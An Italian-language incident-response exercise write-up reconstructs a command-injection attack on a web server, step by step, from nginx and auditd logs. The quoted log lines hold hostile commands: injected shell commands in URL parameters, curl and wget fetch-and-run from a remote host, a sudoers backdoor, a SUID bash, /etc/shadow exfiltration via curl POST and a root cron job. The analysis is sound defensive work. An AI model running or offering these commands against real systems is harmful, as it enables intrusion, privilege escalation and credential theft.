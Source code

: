 

# 
L’obiettivo di questo esercizio è identificare e ricostruire un tentativo di Remote Code Execution (RCE) sul server web, analizzando i log e correlando gli eventi.
In particolare, il focus è sull’individuazione dell’iniezione di comandi tramite parametri URL e sulla conferma della loro esecuzione a livello di sistema. 

(Ref-MITRE ATT&CK: T1059.004 : Command and Scripting Interpreter)

Web Access Logs sample
![ ](../image/a1.png)

system and security log sample
![ ](../image/a2.png)

#
Il mio primo passo è stato cercare nei log di nginx durante il tempo indicato dall’alert. Ho filtrato le richieste GET sospette che contenevano caratteri di shell (;, |, ecc.). La prima voce rilevante era:
```
2025-08-22 06:15:09 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:09 +0000] "GET /product?id=5;uname+-a HTTP/1.1" 200 432 "-" "Mozilla/5.0"
```

Il punto e virgola e il comando uname -a indicano un tentativo di iniezione di comandi. Questo tipo di comando viene spesso usato per testare se l'esecuzione è possibile. Dovevo confermare se era stato eseguito davvero.
Sono passato ai log di auditd e ho filtrato per voci EXECVE intorno allo stesso orario. Un secondo dopo, ho trovato:
```
2025-08-22 06:15:10 WEB01 auditd[1172]: EXECVE cmd=uname args=["uname","-a"] cwd="/var/www/app" pid=2435 uid=33
```

Questo conferma che il comando è stato eseguito, sotto uid=33, che corrisponde di solito all’utente www-data. Quindi il server era vulnerabile e l’attaccante aveva ottenuto esecuzione di comandi.
Per vedere se continuava, ho cercato altre richieste sospette dallo stesso IP subito dopo. Ho trovato questa:
```
2025-08-22 06:15:22 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:22 +0000] "GET /product?id=5;cat+/etc/passwd HTTP/1.1" 200 1021 "-" "Mozilla/5.0"
```

Ho verificato nei log di auditd per confermare l'esecuzione:
```
2025-08-22 06:15:23 WEB01 auditd[1172]: EXECVE cmd=cat args=["cat","/etc/passwd"] cwd="/var/www/app" pid=2437 uid=33
```

A questo punto avevo un pattern chiaro:

•	L’attaccante ha iniettato comandi shell usando un parametro vulnerabile.

•	Ogni richiesta era seguita da una voce EXECVE che conferma l’esecuzione.

•	Tutti i comandi erano eseguiti con lo stesso utente non-root.

Avevo quindi confermato l’accesso iniziale tramite iniezione di comandi e visto che l’attaccante stava facendo ricognizione. Non c’erano ancora segni di escalation di privilegi, ma il mio prossimo passo era cercare eventuali download di file o cambiamenti nei permessi.

# Esecuzioni successive e primi segnali di escalation
Dopo aver confermato che l’attaccante poteva eseguire comandi, ho cercato nei log se aveva provato a scaricare o eseguire altri script. Ho filtrato nei log nginx le richieste con comandi curl o wget, perché spesso sono usati per scaricare payload.

```
2025-08-22 06:16:18 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:16:18 +0000] "GET /product?id=5;curl+http://198.51.100.77/shell.sh|bash HTTP/1.1" 200 231 "-" "Mozilla/5.0"
```
Il comando usa curl per scaricare uno script remoto e lo esegue direttamente con bash. Per verificare, ho controllato i log di auditd nello stesso momento:
```
2025-08-22 06:16:19 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","http://198.51.100.77/shell.sh"] cwd="/var/www/app" pid=2440 uid=33
```

Il comando è stato eseguito come uid=33, quindi lo script remoto è stato scaricato ed eseguito come utente www-data. Ho continuato a cercare per vedere se c’erano altri download. Poco dopo, ho trovato questa seconda richiesta:
```
2025-08-22 06:18:44 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:18:44 +0000] "GET /product?id=5;wget+http://198.51.100.77/dropper.sh+-O+/tmp/x.sh;sh+/tmp/x.sh HTTP/1.1" 200 452 "-" "Mozilla/5.0"
```

Qui viene scaricato un secondo script (dropper.sh) e salvato in /tmp/x.sh, poi eseguito subito con sh. Nei log auditd ì:
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=wget args=["wget","http://198.51.100.77/dropper.sh","-O","/tmp/x.sh"] cwd="/var/www/app" pid=2444 uid=33
```
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=sh args=["sh","/tmp/x.sh"] cwd="/var/www/app" pid=2445 uid=33
```
Queste righe confermano che lo script dropper è stato salvato nella cartella temporanea ed eseguito. A questo punto ho iniziato a tracciare tutto ciò che accadeva dopo sh /tmp/x.sh, usando il PID 2445 come riferimento.
Ho trovato altri comandi eseguiti da quello script:
```
2025-08-22 06:19:18 WEB01 bash[2453]: wget: saved file "/tmp/x.sh" size=214 bytes
2025-08-22 06:19:31 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+x","/tmp/x.sh"] cwd="/var/www/app" pid=2452 uid=33
2025-08-22 06:19:36 WEB01 auditd[1172]: EXECVE cmd=/tmp/x.sh args=["/tmp/x.sh"] cwd="/var/www/app" pid=2453 uid=33
2025-08-22 06:19:39 WEB01 bash[2453]: useradd attacker -m -s /bin/bash
2025-08-22 06:19:44 WEB01 bash[2453]: echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

Ho notato che lo script ha creato un utente chiamato attacker e ha cercato di modificarne i privilegi. Il file /etc/sudoers richiede privilegi root, quindi a questo punto ho iniziato a sospettare che l’attaccante stesse tentando l’escalation.
Tuttavia, fino a questo momento tutti i comandi risultavano ancora eseguiti come uid=33. Non c’era ancora prova concreta che l’attaccante avesse ottenuto accesso root, ma i tentativi erano chiari.


# Esfiltrazione e persistenza finale
Dopo aver visto che lo script cercava di modificare /etc/sudoers, ho deciso di concentrarmi sui log auditd per trovare segnali di privilege escalation riuscita. Ho continuato a filtrare gli EXECVE dopo l’esecuzione di /tmp/x.sh.
Il primo evento chiave è stato questo:
`
2025-08-22 06:19:50 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+s","/bin/bash"] cwd="/var/www/app" pid=2455 uid=0 auid=0
`

Qui ho finalmente visto un comando eseguito da uid=0 (root). L’attaccante ha impostato il bit SUID su /bin/bash, creando un backdoor permanente con privilegi root. Questo è un chiaro segnale di escalation completata.
Ho cercato cosa è successo subito dopo ....
```
2025-08-22 06:20:11 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","-X","POST","-d","$(cat /etc/shadow)","http://198.51.100.77/exfil"] cwd="/var/www/app" pid=2456 uid=0 auid=0
```

L’attaccante ha usato curl per inviare il contenuto di /etc/shadow verso un server remoto. Questo file contiene le hash delle password e può essere letto solo da root. Il fatto che il comando è stato eseguito da uid=0 conferma che i privilegi root erano stati ottenuti con successo.
Infine, ho voluto vedere se era stata impostata qualche forma di persistenza. Ho controllato le modifiche nei file di sistema e ...
```
2025-08-22 06:20:23 WEB01 bash[2453]: cron job created: "* * * * * root /tmp/x.sh" in /etc/crontab
```

Questa voce indica che è stato aggiunto un job cron per eseguire /tmp/x.sh ogni minuto come utente root. È un metodo semplice ma efficace per mantenere accesso continuo al sistema anche dopo un riavvio.

A questo punto ho l'intero quadro dell'attacco:

•	Accesso iniziale tramite iniezione di comandi

•	Download ed esecuzione di payload remoti

•	Escalation dei privilegi tramite chmod +s /bin/bash

•	Esfiltrazione del file /etc/shadow

•	Persistenza tramite cron



